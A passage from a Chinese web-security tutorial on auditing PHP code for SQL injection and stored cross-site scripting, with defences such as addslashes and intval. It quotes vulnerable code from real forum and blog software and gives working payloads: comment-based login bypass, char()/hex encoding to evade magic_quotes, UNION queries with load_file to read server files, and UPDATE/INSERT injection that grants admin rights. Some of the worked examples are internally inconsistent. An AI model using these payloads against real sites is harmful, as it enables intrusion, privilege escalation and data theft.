要判断后台数据库是否为 MySQL，输入 `http://www.xxx.com/index.php?$blogid=5/*hack`，那么到了数据库中就变成了 `SELECT * FROM article where id=5/*hack;`。因为 MySQL 支持 `/*注释`，所以它会把 `/*hack` 当作注释来处理。那么输入 `$blogid=5/*hack` 与输入 `$blogid=5` 是一样的，结果自然也就返回正确。不过支持 `/*` 注释的也只有 MySQL 数据库一种，所以可以利用这个特性来判断是否是 MySQL 数据库。对于更多的手工注入方法这里就不再重复了，不清楚的话可以参考第二章。只是大家要明白，我们在手工注入过程中输入的那些额外数据，如 `and 1=1`、`and 1=2` 等等，它们都是被放入到了数据库执行的语句中去执行了，从而获得更多规定以外的数据。归根到底就是没有过滤参数的数据。

在 PHP 中要防止数字型注射漏洞是比较简单的，我们可以用到 PHP 自带的一些函数。例如使用转义字符串函数 `addslashes()`，提交的变量中所有的 `'`（单引号）、`"`（双引号）、`\`（反斜线）和空字符会自动转为含有反斜线的转义字符。例如，我们输入 `$blogid=5'`，使用函数 `addslashes()` 之后，它就会把 `$blogid=5'` 转换成 `$blogid=5\'`，这样我们的注射就根本没办法进行下去了，彻底断绝了注射攻击。所以上面的代码，我们可以改成：

```php
$blogid= addslashes($_REQUEST[blogid]);
// 使用 addslashes() 函数对参数所有的单引号、双引号、反斜杠、空字符都进行转义
if (!isset($blogid)){
    $blogid=1;
}
$query_sql="SELECT * FROM article where id='".$blogid."'";
$result=mysql_query($query_sql);
$pageurl = './?blogid='.$blogid;
```

那么使用了 `addslashes()` 函数对输入的参数 `blogid` 转换之后，就可以彻底防止注入漏洞的存在。

还有一种办法也可以彻底断绝数字型注射漏洞：使用函数 `intval()` 对输入的数据进行转换。该函数的作用是把数据强制转换成数字型，比如输入 `$blogid=5'`，使用函数 `intval($blogid)`，它就会把 `5'` 强制性地转换成数字 5。使用该函数后，所有的数据都会被转换成数字。所以对于数字型参数，只要使用了这个函数，那么不管参数是什么都被转换成数字，同样可以彻底防止数字型的注射攻击。所以上面的代码，我们还可以改成：

```php
$blogid=intval($_REQUEST[blogid]);
// 使用 intval() 函数对输入的参数值全部强制性转换成数字
if (!isset($blogid)){
    $blogid=1;
}
$query_sql="SELECT * FROM article where id='".$blogid."'";
$result=mysql_query($query_sql);
$pageurl = './?blogid='.$blogid;
```

上面的代码都是由我自己写的，虽然其存在注射漏洞，但是缺乏一定的实战性。这里为大家初步分析一下系统中存在的注射漏洞，这是一个叫“南部弯”的 PHP 论坛中存在的注射漏洞代码，如下所示：

```php
.........................省略代码
$bdid = $_GET["bdid"];            // 通过$_GET方式获得参数 bdid
$bbsid = $_GET["bbsid"];          // 通过$_GET方式获得参数 bbsid
$sql="SELECT btable, name, page FROM board WHERE id=". $bdid;
// 参数 bdid 没有经过任何的处理就放入数据库中查询，第一个注射漏洞
$board = $db->fetch_array($sql);   // 执行查询语句
........省略代码
if(($display <> $_self) && ("display.php" <> $_self)){
    $db->close();
    exit("<metahttp-equiv=\"refresh\" content=\"0;URL=".$display."?bdid=".$bdid."&bbsid=".$bbsid."\">");
    // 参数 bdid 和 bbsid 都是在 URL 中
}
if($online_enable == "on"){
    $online=new onlclass;
    $online->insert($db,$time,$main."?bdid=$bdid",$id,$name);
}
$sql="SELECT title, txt, up, super, recommendation, locked, userid, username, tim, readtimes, penname, upload_pic, upload_file FROM ".$_btable." WHERE id=". $bbsid;
// 参数 bbsid 没有经过任何处理就放入数据库中查询，第二个注射漏洞
$bnum = $db->fetch_rows($sql);     // 执行查询语句
if($bnum == 0){
    $db->close();   // 执行错误的话，就输出您浏览的帖子已经被删除，或者参数有误！
    exit("<meta http-equiv=\"refresh\" content=\"5;URL=first.php\"><center><h3><font color=#ff0000>您浏览的帖子已经被删除，或者参数有误！</font></h3></center>");
}


```

上面的参数 `bdid` 和 `bbsid` 都是在通过 `$_GET` 方式获得数据后就直接放入数据库进行查询操作了，完全没有考虑到参数的安全问题，自然注射漏洞也出来了。而且这两个参数都是存在于 URL 中，所以进行攻击非常方便，如图 10-1 和图 10-2 所示，测试了该参数没有过滤，注射漏洞出现。在后面可以用手工或工具进行渗透了。
图 10-1 加 `and 1=1` 返回正常
图 10-2 执行错误，显示“您浏览的帖子已经被删除，或者参数有误！”

上面我举的例子，数字型参数是在 URL 中，而在真正的系统分析中，数字型参数就不仅仅存在于 URL 中了。对于这样的数字型注射漏洞，首先是要找到它在服务器中是在何处被获取的、采用什么方式，如图 10-3 所示，查找到了参数 `id` 是通过 `$_REQUEST` 方式获得的。有了这个参数之后，我们就是要看这个数字型参数是被如何处理的，我们可以一路跟踪这个参数的走向。使用记事本的查找功能可以很快完成这个跟踪工作，如图 10-4 所示，参数直接就放入到了数据库中查询了，这样就轻易地发现了一个注射漏洞。至于接下来的工作就是进行注射攻击了，你可以采用工具或者手工，这些在第二章相信大家已经学会了。

```php
require_once('includes/init.php');

/* 取得参数 */
$order_id = $_REQUEST['id'];
$consignee = rawurldecode($_REQUEST['con']); // 收货人

注：图中标注“获得数字型参数，采用$_REQUEST方式”。
```

图 10-3 通过 `$_REQUEST` 方式获取数字型参数

```php
if (empty($order))
{
    $msg = $_LANG['order_not_exists'];
}

/* 检查订单 */
elseif ($order['shipping_status'] == SS_RECEIVED)
{
    $msg = $_LANG['order_already_received'];
}

/* 查询订单信息 */
$sql = "SELECT * FROM " . $ecs->table('order_info') . " WHERE order_id = '$order_id'";
$order = $db->getRow($sql);

注：图中标注说明参数 `$order_id` 未经过转换和过滤即进入数据库查询。
```

图 10-4 参数 `$order_id` 直接放入到数据库查询

### 10.1.2 PHP 中的字符型注射漏洞代码分析

字符型参数在 PHP 应用中也是非常广泛，比如调用一个文件参数、搜索等功能的使用上。和 ASP 下的注入攻击一样，PHP 的很多程序员也是不太注意对字符型参数的过滤。虽然字符型参数的注射攻击比数字型攻击要麻烦一点，但依然是光芒四射。

字符型注射漏洞的代码很多，这里我就以搜索功能的代码来为大家讲解字符型注射漏洞的利用。在 PHP 下要实现搜索仍然是要用到 `LIKE` 操作符及通配符，对于 PHP 中搜索所用的 SQL 基础和 ASP 下是一样的，而且如何寻找一个系统中是否存在搜索功能及漏洞的方法和 ASP 中也是非常类似的，这里就不重复了，要学会灵活运用。存在漏洞的代码如下所示：

```php
$key=trim($_REQUEST['key']);
// 通过$_REQUEST方式获取我们输入的搜索关键字，并过滤两边的空格
$type=trim($_REQUEST['type']);
// 通过$_REQUEST方式获取我们选择要搜索的类型，并过滤两边的空格
$page=intval($_GET['page'])?intval($_GET['page']):1;
// 通过$_GET方式获取页面数，并通过intval函数转换，如果转换失败，把page设置等于1
$psize = $setting['searchnums'];      // 每页显示记录数
$start=($page-1)*$psize;              // 计算每一页要显示的记录数
//echo $type,$key;
if($type=="title"){  // 如果type等于title的话，就执行下面的查询
    $sql="SELECT id,sid,posticon,title,top,author,visits,addtime,weather FROM ".$table_prefix."blog WHERE title LIKE '%$key%' ORDER BY id DESC LIMIT $start,$psize";
    $total_sql="SELECT id FROM ".$table_prefix."blog WHERE title LIKE '%$key%'";
}
// $key 没有经过任何的过滤就进行数据库查询，下面也是如此
elseif($type=="content") {   // 如果type等于content的话，就执行下面的查询
    $sql="SELECT id,sid,posticon,title,top,author,visits,addtime,weather FROM ".$table_prefix."blog WHERE content LIKE '%$key%' ORDER BY id DESC LIMIT $start,$psize";
    $total_sql="SELECT id FROM ".$table_prefix."blog WHERE content LIKE '%$key%'";
}
elseif($type=="comment") {   // 如果type等于comment的话，就执行下面的查询
    $sql="SELECT blogid,content FROM comment WHERE content LIKE '%$key%' ORDER BY id DESC LIMIT $start,$psize";
}
elseif($type=="gbook") {     // 如果type等于gbook的话，就执行下面的查询
    $sql="SELECT id,title FROM guestbook WHERE content LIKE '%$key%' ORDER BY id DESC LIMIT $start,$psize";
}


```

可以看到参数 `$key` 没有经过任何的过滤和检查就放入到了数据库的查询中，并且通过 `LIKE` 操作符及 `%` 通配符实现搜索功能的模糊查询。字符型的注射漏洞不比数字型那么方便，因为它要用单引号绕过一些诸如单引号之类符号的封锁，这一点在 ASP 下的字符型注入中已经说得很明白了，在 PHP 中是一样的。

上面的字符型注射漏洞我们可以用“关键字%' and 注射代码 and'%%”来完成注射攻击，输入它之后整条查询语句就变成了“SELECT id,title FROM guestbook WHERE content LIKE '%关键字%' and 注射代码 and '%%'”。我们只要保证 `SELECT id,title FROM guestbook WHERE content LIKE '%关键字%'` 执行的结果为真，即要保证我们输入的关键字能够在网站中搜索到，那么我们就可以进行注射攻击。转换成逻辑运算符为“真 and 注射代码 and 真”。比如我们把注射代码换成 and 1=1，那么就会变成“真 and 真 and 真”，结果自然返回正常页面了。而如果换成 and 1=2，那么就变成了“真 and 假 and 真”，结果为假，返回页面自然是错误的了。

再例如，关键字我们输入 BLOG，注射代码输入 (select top 1 asc(mid(username,1,1)) from admin)=97，即“BLOG%' and (select top 1 asc(mid(username,1,1)) from admin)=97 and '%'”。那么执行后语句就变成了“SELECT id,sid,posticon,title,top,author,visits,addtime,weather FROM ".$table_prefix."blog WHERE title LIKE 'BLOG%' and (select top 1 asc(mid(username,1,1)) from admin)=97 and '%' ORDER BY id DESC LIMIT $start,$psize”，执行的结果肯定是错误的了，因为 (select top 1 asc(mid(username,1,1)) from admin)=97 是在 ACCESS 数据库注入中使用的注入攻击代码，在后台为 MySQL 的数据库中执行肯定为错误，自然就变成了“真 and 假 and 真”，返回错误页面，如图 10-5 所示。
图 10-5 搜索注射执行错误

是不是可以发现它和我们一般的 PHP 注入攻击是差不多呢？说实话，只是稍微变通了一下，技术上并没有更新。如果还有什么不明白的地方，可以参考 ASP 搜索注入中的基础知识，在这点上它们是相通的。

对于 PHP 下的字符型注射漏洞当然远远不止搜索了，在 ASP 下还介绍了输入框和隐藏域 HIDDEN 下的字符型注入代码分析。其实，如果大家对 HTML 还是非常熟悉的话，就会发现不管是搜索、输入框还是隐藏域 HIDDEN，它们都是属于 input 标签。因为只有这个标签，我们才能够输入数据与服务器进行交互。所以 ASP 下的字符型注入攻击与 PHP 中的，除了 ASP 与 PHP 代码的差别之外，其他的地方都是一样的。我们前面介绍的各种技巧也是适合 PHP 下的注射攻击的。

例如，input 最为常见的就是一个输入长度的限制，如下代码所示，输入限制在 12 个字符：

```html
<form action="http://65.109.213.64/blog/search.php" name="search" method="post">
<input type="hidden" name="action" value="do">
<table width="100%" border="0" cellpadding="0" cellspacing="0" align="center">
    <tr>
        <td valign="top" align="center"><select name=type>
<option value="title">标题</option>
<option value="content">内容</option>
</select>
<input type="text" size="12" name="key" value=""><input type="submit" value="搜索" class="bginput">
                //限制输入 12 个字符
        </td>
    </tr>
</table>
</form>


```

不管它的服务器端是哪种脚本语言，我们只需要修改 input 标签的 size 属性就可以突破输入限制，例如改成 size=10000。还有就是查找代码中存在的字符型注射漏洞的技巧，也是可以相通的。对于字符型的注射漏洞，使用函数 addslashes() 仍然可以彻底断绝。

其实，在 PHP 下要寻找系统中的注射漏洞还有一个更好的办法，就是搜索字符“$”。因为我们知道 PHP 中的变量都是字符 $ 开头的，所以搜索 $ 就可以找到所有字符，包括参数。因为目前大多数的 PHP 系统采用的都是中等风格（即 $_GET、$_POST、$_REQUEST）来获得客户端输入的数据。所以搜索 $_GET、$_POST、$_REQUEST 这三个关键字就可以很快地找出所有客户端与服务器交互的参数，如图 10-6 所示。
图 10-6 搜索客户端与服务器交互的参数

在上图中，我们搜索关键字“$_REQUEST”得到了参数 id 与服务器的交互。再通过 $_REQUEST 方式获得客户端输入的 id 之后，把 id 的值赋给了 $id。那么接下来，我们就是要看参数 $id 是如何在服务器中处理的。所以我们搜索参数 $id，如图 10-7 所示。
图 10-7 查看参数 $id 是如何处理的

可以很清楚地看到，参数 $id 在图 10-6 中从客户端获取后，就直接放入了数据库更新操作中去了，如图 10-7 所示。参数 $id 并未做任何处理就执行了更新操作，按照在 ASP 中学习的知识，这就应该发生了一个注射漏洞了。

相信有了上面对关键字的搜索，可以很快地找出所有的参数，进而一步步地跟踪。所以要发现漏洞也不是太难，方法和技巧可以让你事半功倍。写到这里，恐怕会有很多人会讲，这里讲的 PHP 注射漏洞代码分析怎么和 ASP 下的差不多。唯一的区别就是由 ASP 环境换成了 PHP 环境，如果仅仅只看了上面的确实如此。不过在 PHP 环境下的注射远远没有那么简单，这是因为 php.ini 配置的一些原因，下一节就来详细介绍。

## 10.1.3 配置选项对注射攻击的影响

PHP 下的注射攻击比起其他脚本语言来，要复杂一些。究其原因就是 PHP 的配置文件 `php.ini` 中的一些选项所致。

在上一章中讲 `php.ini` 配置文件的时候就提到了 `magic_quotes_gpc` 选项。这个选项如果启用的话，即 `magic_quotes_gpc=on`，那么它就会实现 `addslashes()` 和 `stripslashes()` 这两个函数的功能。其中 `addslashes()` 就是对输入参数中的单引号、双引号、\ 和空字符等在其前面添加反斜杠（\），达到转义的目的。而函数 `stripslashes()` 就是在字符串输出前去掉字符前面的反斜杠，这两个函数的功能恰好相反。gpc 表示 GET、POST 和 Cookie，这就意味着来自这些方法和方式的变量将全部会自动进行转换。

试想一下，如果 PHP 配置文件中启用了它，那么输入的注射攻击代码就会被全部转换，那么就会给我们的注射带来非常大的麻烦。在 PHP 4.0 及以上的版本，`magic_quotes_gpc` 这个选项默认情况下是启用的，即 `magic_quotes_gpc=on`。这也就使得在 PHP 4.0 版本以后的注射攻击上显得微不足道了。所以在 PHP 4.0 以后版本中，就算 PHP 程序中的参数没有进行过滤，PHP 系统也会对其进行自动的转换。这样就大大提高了 PHP 系统的安全性。`magic_quotes_gpc` 这个选项只有在 4.0 以下版本中默认才是关闭的，即 `magic_quotes_gpc=off`。

所以，在 PHP 的注射攻击中，受到服务器配置的影响比较大。影响注射攻击的配置选项还有 `safe_mode` 和 `display_errors` 这两个。`safe_mode` 表示 PHP 的安全模式，在 PHP 4.0 以后版本默认是关闭的，即 `safe_mode=Off`，如图 10-8 所示；`display_errors` 选项的作用是用于返回错误，当 `display_errors` 打开时，即 `display_errors=on` 时，如果 PHP 执行错误的话就会返回错误信息，那么对于我们入侵者来说，这就会得到很多敏感信息。而如果设置 `display_errors=off` 的话就不会返回错误信息。在 PHP 4.0 及以后版本中，这个选项默认是启用的，如图 10-9 所示。
图 10-8 safe_mode 默认为 off
图 10-9 display_errors 默认为 on

接下来我们再来详细讨论注射攻击，从两个角度来划分：一是 magic_quotes_gpc=off；二是 magic_quotes_gpc=on。

##### 1、magic_quotes_gpc=off

在 PHP 4.0 及以下的版本中，magic_quotes_gpc 默认情况下为 off。如果 magic_quotes_gpc=off 的话，那么注射攻击将会变得非常严重。那么这个时候的注射攻击就和在 ASP 下一样，只要有一个参数没有被过滤，我们就可以对其进行注射攻击。对于 select 上的注射攻击，和 ASP 下是一样的，而且前两节已经多次用代码和例子介绍了。

所以下面主要就用 update 和 insert 语句来谈谈当 magic_quotes_gpc=off 时的注射攻击。在第 5 章中介绍 update 语句的时候我们已经知道，UPDATE 是用新值更新现有表中行的列，SET 子句指出哪个列要修改和它们应该被给定的值，WHERE 子句如果给出，指定哪个行应该被更新，否则所有行被更新。它不仅可以用来对文章进行修改，还能够用来修改用户的信息。试想一下，如果没有对我们输入的数据进行过滤和转换，那么是不是可以用来修改用户信息，从而达到越权操作的目的呢？为了更加说明这个问题，这里我先建一个数据表，它的结构如下所示：

```sql
CREATE TABLE users(
userid int(10) NOT NULL,
username varchar(25),
password varchar(25),
e-mail varchar(30),
order sz,
PRIMARY KEY (userid)
)
```

其中 order 表示用户的等级，0 表示超级管理员，1 表示普通管理员，2 表示普通会员。而在 PHP 系统中，它是这样更新数据的，代码如下所示：

```php
.............省略代码
$sql = "UPDATE users SET password='$password', email='$e-mail' WHERE id='$userid'"
.............
```

这里假设所有的数据都没有经过转换，那么现在开始我们的注射攻击吧。这里我的 userid 为 10，密码为 123456，电子邮件是 zengyunhao0@gmail.com，但是我却不输入 zengyunhao0@gmail.com，而是输入 zengyunhao0@gmail.com',order='1。那么整条 SQL 语句就变成了 UPDATE users SET password='123',email='netsh@163.com',order='0' WHERE id='10'。

看看我们的 order 就是 0 了，变成了超级管理员了啊。不过这里需要注意的是，如果一个单引号而没有单引号与之组成一对，系统会返回错误。

接下来再看看 insert 的注射攻击，insert 的语法这里就不再重复，详见第五章。INSERT 就是把新行插入到一个存在的表中，INSERT ... VALUES 形式的语句是基于明确指定的值插入行，INSERT ... SELECT 形式是插入从其他表选择的行。我们在论坛注册的时候，注册一个会员，成功之后我们的会员信息就插入到了数据库中了。这里假设它的数据表结构如下所示：

```sql
CREATE TABLE member(
  userid int(10) NOT NULL,
  username varchar(25),
  password varchar(25),
  e-mail varchar(30),
  order sz,
  PRIMARY KEY (userid)
)
```

我们假设 order 表示用户的等级，0 表示超级管理员，1 表示版主，2 表示普通会员。而在 PHP 系统中，数据是被这样插入到数据表中的，代码如下所示：

```php
............. 省略代码
$query = "INSERT INTO members VALUES('$id','$username','$password','$e-mail','2')";
..............
```

在默认的情况下插入用户的等级是 2，但是我们可以做一些手脚，使得我们成为超级管理员。这里电子邮件正确的应该输入 zengyunhao0@gmail.com，但是我却不输入 zengyunhao0@gmail.com，而是输入 zengyunhao0@gmail.com','1')#。那么整条 insert 语句就变成了 INSERT INTO members VALUES('10','zengyunhao','123456','zengyunhao0@gmail.com','0')#',?)

这样我们一注册就变成了超级管理员了，是不是很好玩啊。这里要给大家解释一下 # 符号的注释作用。在 MySQL 中有三种注释的方法，为：

- `#` 表示注释掉本行中该符号后面的内容
- `--` 它的作用与 `#` 是一样的
- `/* ... */` 表示 `/*` 和 `*/` 中的内容全部为注释
- 对于 `#` 号将是我们最常用的注释方法
- `--` 号记得后面还得有一个空格才能起注释作用
- `/*...*/` 我们一般只用前面的 `/*` 就够了

不过在 URL 中使用 # 注释的时候要注意了，不应该输入 #，而要输入 %23，因为所有的字符在 URL 中都会被 urlencode 转换，只有输入了 %23 才会被转换成 #。利用该注释符我们可以做非常多的事，例如下面的一个验证用户的代码：

```php
$query="select * from alphaauthor where UserName='$username' and Password='$passwd'";
$result=mysql_query($query);
```

这里假设没有对变量 username 中的数据进行过滤和转换，那么在用它进行验证用户登录时，我们直接在浏览器地址框输入 `http://www.xxx.com/xxx.php?username=a' or id=1%23` 就可以登录后台了。在 URL 中 %23 被转换成了注释符，放入到数据库查询代码中就变成了 `select * from alphaauthor where UserName='a' or id=1 #' and Password='$passwd'`，那么后面的 passwd 就被我们的 # 符号给注释掉了。其实就是等于 `select * from alphaauthor where UserName='a' or id=1`。

我们来看看 or 运算符的运算规则：只要两个运算条件有一个为真，那么结果就为真。因为 username='a' 是我们随便填的，所以 `select * from alphaauthor where UserName='a'` 执行的结果肯定为假。只要保证 id=1 的结果为真，即存在一个 id 值为 1 的记录，那么整条语句就变成真了，这样就顺利登录了后台。

最后还来谈谈 union 查询，它在 MySQL 4.0 及以后版本被支持。利用它我们可以实现跨表查询。在进行 union 查询的时候，所有 select 的字段必须相同，只有相同才能够发挥 union 查询的功能，否则会出错。

比如，存在两个数据表，一个为 article，另一个为 admin，它们都存在 5 个字段。我们要对表 article 进行注入时，可以这样输入：select * from article where id=10 union select 1,2,3,4,5 from admin; 即可看到表 article 中的数据。但是对于我们入侵的时候，更需要的数据是表 admin 中的，而不是 article 中的。如果我们想得到 admin 表中的数据就应该输入：select * from article where id=10 and 1=2 union select 1,2,3,4,5 from admin; 这样执行后的结果就为表 admin 中的信息了。

要实现跨表查询，就应该使我们要查询的表前面的条件为假，所以我们要让 select * from article where id=10 and 1=2 的执行结果为假，而 select 1,2,3,4,5 from admin 的结果却为真。因为前者为假，所以系统会自动显示其后面的结果，即显示 select 1,2,3,4,5 from admin 的结果，这样就达到了跨表查询的目的。当然，我们输入 select 1,2,3,4,5 from admin 只得到了 admin 表中的字段，至于怎么得到字段中的内容，其实大家已经掌握了。要猜解 admin 表中的数据，只需要用 ACCESS 数据库中猜解的方法就可以了。也就是说，要猜解 union 后面的 select 语句中的信息，只需要用 ACCESS 数据库的猜解方法即可。

对于 PHP 下的字符型注射，只有在 magic_quotes_gpc=Off 的情况下才能进行；当 magic_quotes_gpc=on 时就彻底断绝了字符型的注射攻击。因为我们提交的变量中所有的 '（单引号）、"（双引号）、\（反斜线）和空字符会自动转为含有反斜线的转义字符，这就使字符型注入化为泡影。当 magic_quotes_gpc=On 时，如果是数字型参数，我们仍然有机会进行注射攻击，下面就来简单介绍。

##### 2、magic_quotes_gpc=On

对于 magic_quotes_gpc 设置为 on 时，PHP 系统的安全性就提高了很多。不过我们仍然有机会突破，这是当参数为数字型的时候，不过前提是我们的数字型参数没有经过 Intval() 函数的处理，因为经过了 Intval() 函数处理，所有的数据就都会强制转换成数字。因为数字型没有用到单引号，所以可以绕过 addslashes() 函数的转换了。

因为在 magic_quotes_gpc=on 时会对所有的 '（单引号）、"（双引号）、\（反斜线）和空字符自动转为含有反斜线的转义字符。所以在 magic_quotes_gpc=on 的环境下进行数字型注射攻击时，必须要避免这些字符的出现。这个时候需要使用到 char() 这个函数，它将参数解释为整数并且返回由这些整数的 ASCII 代码字符组成的一个字符串。当然也可以不用这个函数而改用十六进制表示，不过用十六进制表示必须在数字前面加上 0x。这里为了方便，我已经提供了一个转换工具，如图 10-10 所示。

图 10-10 ASCII 和十六进制转换工具

这里我给大家还是举前面怎么绕过验证进入后台的例子吧，看看在 `magic_quotes_gpc=on` 时我们是如何进入后台的，数据库的验证代码如下所示：

```php
$query="select * from ".$art_system_db_table['user']." where UserName=$username and Password='".$Pw."'";
$result=mysql_query($query);
```

这里假设我们知道可以登录后台的一个用户的用户名为 `admin`，转化成 ASCII 后是 `char(97,100,109,105,110)`，转化成 16 进制是 `0x61646D696E`。那么我们只需要在 URL 中直接输入 `http://www.xxx.com/xxx.php?username=char(97,100,109,105,110)%23` 就可以直接登录后台了。它在数据库中就变成了：

`select * from admin where UserName=char(97,100,109,105,110)# and Password=''`。

即：

`select * from admin where UserName=char(97,100,109,105,110)`，

因为存在 `admin`，所以 `select * from admin where UserName=char(97,100,109,105,110)` 执行为真，使得我们顺利进入了后台。

当然咯，我们也可以这样构造 `http://www.xxx.com/xxx.php?username=0x61646D696E%23`。SQL 语句就变成了 `select * from admin where UserName=0x61646D696E%23# and Password=''`，这样我们又一次进入了后台。

我想，大家应该还记得前面介绍 `load_file()` 函数的时候吧，利用这个函数我们可以轻易地读取出服务器上的内容。那么在 `magic_quotes_gpc=on` 时该如何利用？和前面的注射一样，要把字符串换成数字，一般习惯上转换成十六进制。`load_file()` 函数的使用格式是 `load_file('文件路径')`，我们只需要将文件路径转换成 ASCII 码或者十六进制即可。

例如 `load_file('c:/boot.ini')` 转化成 ASCII 为：

`load_file(char(99,58,92,98,111,111,116,46,105,110,105))`；

转化成十六进制为：

`load_file(0x633A5C626F6F742E696E69)`，

把它放到数据库中就变成了：

`select * from article where id=10 and 1=2 union select 1,load_file(0x633A5C626F6F742E696E69),3,4,5 from admin`。

那么它就会读取 Windows 下的配置文件 `boot.ini` 文件了。

现在你应该知道了在 PHP 下进行注射攻击是比较麻烦了吧！它不仅受到了代码安全性的影响，对 `php.ini` 也受到了很多的限制。特别是现在基本上大部分网站采用的 PHP 版本都是 4.0 以上了，默认情况下 `magic_quotes_gpc=on`，使得 PHP 下的注射攻击就显得不是那么微不足道了，不过这个漏洞我们依然要特别注意。下面再来谈谈怎么防止注射漏洞的产生。

因为程序员在开发 PHP 系统的时候不可能考虑到是架构在哪一个版本的 PHP 服务器上，也就是说该 PHP 系统可能被架构在 PHP 4.0 版本以下，也可以架构在 4.0 以上。所以为了防止注射漏洞的发生，首先就要用 `get_magic_quotes_gpc()` 函数判断 `magic_quotes_gpc` 是否打开，如果没有打开就应该使用 `addslashes()` 函数进行转换。如果打开则不需要使用 `addslashes()` 函数转换，因为系统自动会转换。这样不管 PHP 系统架构在哪个版本中，它都会对输入的数据进行转换了，实现的代码如下所示：

```php
if (!get_magic_quotes_gpc()) {  //判断 get_magic_quotes_gpc() 是否打开
    $_POST['userid'] = addslashes($_POST['userid']);
    $_POST['username'] = addslashes($_POST['username']);
    $_POST['e-mail'] = addslashes($_POST['e-mail']);
} else {}
```

如果 `magic_quotes_gpc` 打开了，则 `get_magic_quotes_gpc()` 就会返回真。而在这里 `!get_magic_quotes_gpc()` 表示取反，这样如果关闭了就用 `addslashes()` 函数进行转换。从而达到不管是哪种都得到了转换的目的。

上面也和大家说了，就算 `magic_quotes_gpc=on`，如果是数字型参数我们仍然有机会进行注射攻击，所以对于系统中所有的数字型参数，如果仅仅是用 `addslashes()` 函数进行转换是不够的，我们也不需要使用这个函数来转换。因为 PHP 下有一个更好的函数，它就是 `intval()`。要实现数字型参数的安全，就必须在任何数字型参数放入数据库之前使用 `intval()` 对参数进行强制性转换成数字。这样，不管它原来参数中是什么数据，经过了 `intval()` 强制转换都变成了数字，这样就彻底断绝了数字型注射漏洞的产生。

上面就是简单为大家介绍了一下 PHP 下的注射方面的知识，相对于 ASP 来说，它要复杂很多，受到的限制也比较多。但是，不管怎么样，只要我们利用好了，依然可以有很大的危害性。

### 10.2 脚本跨站漏洞

不管是 PHP 环境还是 ASP 环境，跨站的原理都是一样的。前面已经多次介绍了该漏洞的原理，这里就不再重复了，如果还有什么不清楚的地方可以参考第四章。因为出现跨站漏洞的前提必须是我们输入的跨站代码被存储在了后台数据库中，所以能够出现跨站漏洞的地方只有两个，一个是 `UPDATE` 语句，另一个是 `INSERT`。所以如果在执行这两个语句中的参数没有过滤的话就会出现跨站漏洞。下面直接分析 PHP 程序中存在跨站漏洞的代码，如下所示：

```php
$set1 = $_POST["set1"];
$set2 = $_POST["set2"];
$penname1 = $_POST["txt1"];
$penname2 = $_POST["txt2"];
...............省略代码
if($set1 == "y"){
    $db->query("UPDATE online SET penname1='" . $penname1 . "' WHERE userid='" . $id . "'");
    //如果参数$set1等于y就直接更新penname1的内容，没有过滤，跨站漏洞出现
}
if($set2 == "y"){
    $db->query("UPDATE online SET penname2='" . $penname2 . "' WHERE userid='" . $id . "'");
    //如果参数$set2等于y就直接更新penname2的内容，没有过滤，跨站漏洞出现
}
$db->close();
```

可以看到上面的代码，变量 `penname2` 和 `penname1` 在没有进行任何处理的情况下，就执行了数据库更新操作，把原来的 `penname2` 和 `penname1` 进行了更新，所以出现了经典的跨站漏洞。我们现在往变量 `penname2` 和 `penname1` 中输入跨站代码，这里我把 `penname2` 和 `penname1` 都选中了，即它们都等于 `y`，如图 10-11 所示：

图 10-11 往变量 penname2 和 penname1 中输入跨站代码

点击确定之后，我们打开就产生了跨站，如图 10-12 和 10-13 所示。

图 10-12 变量 penname1 的跨站

图 10-13 变量 penname2 的跨站

下面我们再来看看 `insert` 语句引起的跨站，`update` 是更新数据库已经存在的内容，而 `insert` 是把新数据插入到数据库中。所以实际上它们都会有数据保留在数据库，往数据库插入数据在一些文章的评论、留言板之类的地方应用得比较多，典型的代码如下所示：

```php
if(isset($_POST['blogid'])){
    $blogid=intval($_POST['blogid']);  //将 blogid 强制转换成数字
    $author=trim($_POST['author']);  //对变量 author 两边的空格进行过滤
    $parseurl=isset($_POST['url'])?trim($_POST['url']):'no';
    //如果设置了变量 url 则过滤其两边的空格，否则将其设置为 no
    $useubb=isset($_POST['ubbcode'])?trim($_POST['ubbcode']):'no';
    //如果设置了变量 ubbcode 则过滤其两边的空格，否则将其设置为 no
    $usesmail=isset($_POST['usesmail'])?trim($_POST['usesmail']):'no';
    //如果设置了变量 usesmail 则过滤其两边的空格，否则将其设置为 no
    $content=trim($_POST['content']);
    //过滤变量 content 两边的空格
    $time=time();  //获取时间
    $ip=realip();  //获取客户端 IP 地址
    $ischecked=($setting['checkcomment']=='yes')?'no':'yes';
    $sql="INSERT INTO ".$table_prefix."comment`(blogid,ischecked,author,content,addtime,ip,parseurl,useubb,usesmile)
    VALUES('".intval($blogid)."','$ischecked','$author','".addslashes($content)."','$time','".addslashes($ip)."','$parseurl','$useubb','$usesmail')";
}
```

上面有很多变量，但是在插入数据库的代码中，已经把 `blogid` 强制转换成了数字；而变量 `content`、`ip` 则用 `addslashes` 函数转换了。但是它却忘记了对变量 `author`、`time`、`parseurl`、`useubb`、`usesmail` 进行转换，直接把这些数据插入了数据库中。变量 `useubb` 是验证码我们是无法进行修改的，但是对于其他变量却可以。比如变量 `author` 是用户名，我们往里面输入跨站代码，就发生了跨站，如图 10-14 和图 10-15 所示。

图 10-14 输入跨站代码

图 10-15 跨站成功

在 ASP 中大家还记得自定义头像跨站吧，其实在 PHP 如果没有处理好同样会出现自定义头像跨站。PHP 中的自定义头像页面如图 10-16 所示，它提供了两个选择，一是采用系统中自带的头像，二是采用自己定义的头像。要采用自定义头像功能，必须把复选框选上。

图 10-16 自定义头像页面

下面就来分析一下 PHP 程序中存在的自定义头像跨站漏洞，我们先来自定义头像的那个输入框的代码，如下所示：

```html
<div align="right"><strong>自定义：</strong></div>
...........省略代码
<input name="check" type="checkbox" id="check" value="z">  //复选框代码
...........省略代码
<input name="url" type="text" id="url" value="<? echo $face;?>" size="32" style="BORDER: #ACACFF 1px solid;color:#1818FF;">  //自定义头像输入框
```

可以看到自定义头像输入框的 `value` 属性值为 `<? echo $face;?>`，所以接下来我们就搜索变量 `$face`，看看这个变量是如何被处理的，如图 10-17 所示。

图 10-17 搜索变量 $face

可以看到变量 `$face` 是 `" name=face1 width="140" height="190">` 这样被放入到 `img` 标签中的，它所处的表单处理文件是 `action/actface.php` 文件中，如图 10-17。

那么我们再跟进这个文件看看它的代码，如下所示：

```php
<?
require_once "../include/numb1.include.php";
require_once "../include/dowithstr.php";
if($check == ""){ $img=$face; }else{ $img=$url; }
//如果没有选中复选框就用系统自带的头像，否则就用我们自己自定义的头像，自定义
//头像输入框的 name 属性是 url
..................省略代码
